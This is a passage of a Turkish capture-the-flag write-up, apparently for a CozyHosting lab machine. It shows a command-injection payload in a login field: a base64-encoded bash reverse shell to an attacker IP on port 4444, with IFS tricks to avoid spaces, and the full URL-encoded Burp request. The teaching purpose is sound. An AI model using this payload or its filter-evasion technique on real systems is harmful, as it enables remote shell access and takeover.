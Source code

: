 Payload kullanılarak oluşturduğum reverse shell kodu ise aşağıda verildiği gibidir:

```bash
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK"|base64${IFS%??}-d|bash;
```

Burada görülen IFS ([Internal Field Separator](https://bash.cyberciti.biz/guide/$IFS)) özel değişkeni, bir argümanın ne zaman bitip, bir sonrakinin ne zaman başladığını belirlemek için kullanılır. Varsayılan değeri sırasıyla 3 karakterden oluşur:

1. Boşluk karakteri
2. Tab karakteri (`^I`)
3. Yeni satır karakteri (`$`)

Bunu aşağıdaki komut ile doğrulayabiliriz:

```bash
cat -etv <<< "$IFS"
```

```text title="Output"
 ^I$
$
```

Bu sebeple `${IFS%??}` komutu, IFS değişkeninin sondan (`%`) iki karakterini (`??`) siler. Yani sonuç olarak sadece boşluk karakterini elde ederiz.

Reverse shell kodunu Burp içerisinde bulunan `username` kısmına yapıştırdıktan sonra bu değeri seçip ++right-button++ ve `Convert selection` --> `URL` --> `URL-encode key characters` ile URL formatına uygun hale getirdim.

!!! info "URL Encoding"

    Benzer işlemi gerçekleştirmek için [bu](https://www.urlencoder.org/) site de kullanılabilir.

Burp Request en son aşağıdaki gibi gözükmelidir:

```text title="Request" hl_lines="16"
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr
Accept-Encoding: gzip, deflate
Referer: http://cozyhosting.htb/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 216
Origin: http://cozyhosting.htb
DNT: 1
Connection: close
Cookie: JSESSIONID=7D0162E6DCCC35EC39B4588615DFF6F4
Upgrade-Insecure-Requests: 1

host=host&username=%3becho${IFS%25%3f%3f}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA%2bJjEK"|base64${IFS%25%3f%3f}-d|bash%3b
```
